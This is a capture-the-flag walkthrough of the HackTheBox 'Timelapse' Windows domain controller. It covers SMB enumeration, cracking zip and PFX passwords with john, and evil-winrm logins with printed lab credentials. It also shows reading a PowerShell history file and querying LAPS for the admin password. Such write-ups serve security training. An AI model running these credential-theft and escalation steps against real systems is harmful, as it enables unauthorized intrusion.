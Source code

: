## HTB: Timelapse Walkthrough

### Recon
- **Nmap Scan:**
  - Found 18 open ports including: SMB (445), Kerberos (88), LDAP (389), and WinRM (5986)
  - Domain: `timelapse.htb`
  - Hostname: `dc01.timelapse.htb`

```bash
nmap -p- --min-rate 10000 10.10.11.152
nmap -p <interesting_ports> -sCV 10.10.11.152
```

- **/etc/hosts Addition:**
```
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

### SMB Enumeration
- SMB anonymous login was successful:
```bash
smbclient -L //dc01.timelapse.htb -N
```
- Notable share: `Shares`
  - Found file: `winrm_backup.zip`
  - Found LAPS documentation in `HelpDesk`

### Shell as `legacyy`
- **Extracted `winrm_backup.zip` → `legacyy_dev_auth.pfx`**
- **Cracked zip password using john:** `supremelegacy`
- **Cracked PFX password using pfx2john + john:** `thuglegacy`
- **Extracted cert & private key:**
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key-enc.pem
openssl rsa -in key-enc.pem -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
- **Connected using Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key
```
- Grabbed `user.txt`

### Shell as `svc_deploy`
- **Found PowerShell history file:**
```powershell
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Credentials found:**
  - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
- **Connected with Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Shell as Administrator
- `svc_deploy` is a member of the `LAPS_Readers` group.
- Queried LAPS for DC01 local admin password:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- Found password: `uM[3va(s870g6Y]9i]6tMu{j`
- Connected as Administrator:
```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

### Root.txt
- `root.txt` not in Administrator desktop.
- Found under `C:\Users\TRX\Desktop\root.txt`

### Notes
- TRX account exists for HTB flag rotation purposes due to dynamic nature of LAPS.
